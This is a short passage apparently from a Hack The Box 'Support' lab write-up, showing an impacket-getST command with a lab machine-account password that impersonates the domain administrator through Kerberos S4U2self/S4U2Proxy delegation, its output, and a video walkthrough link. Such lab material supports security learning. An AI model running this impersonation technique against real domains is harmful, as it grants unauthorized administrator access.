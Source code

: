 #### getST

    ➜  Support impacket-getST support.htb/irem$:Password321! -spn www/dc.support.htb -impersonate administrator
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating administrator
    /usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow()
    /usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
    [*] Requesting S4U2self
    /usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow()
    /usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
    [*] Requesting S4U2Proxy
    [*] Saving ticket in administrator@www_dc.support.htb@SUPPORT.HTB.ccache

Video walkthrough
[WATCH!](https://youtu.be/6Nh8s8DwWXk)
